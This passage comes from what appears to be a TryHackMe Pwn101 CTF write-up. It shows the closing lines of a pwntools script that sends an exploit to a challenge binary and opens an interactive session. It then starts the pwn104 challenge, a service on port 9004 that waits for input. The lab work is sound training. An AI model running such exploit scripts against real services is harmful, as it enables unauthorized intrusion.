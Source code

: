 ```python
print(io.recv().decode('utf-8'))
io.sendlineafter(b"[pwner]:",exploit)
print(io.recv().decode('utf-8'))

io.interactive()
```

![Untitled](Pwn101%20-%20TryHackMe%20CTF%20Writeup/Untitled%2014.png)

# Challenge 4 - pwn104

When we execute given file which will be working on given ip’s port 9004 waits an input.

![Untitled](Pwn101%20-%20TryHackMe%20CTF%20Writeup/Untitled%2015.png)
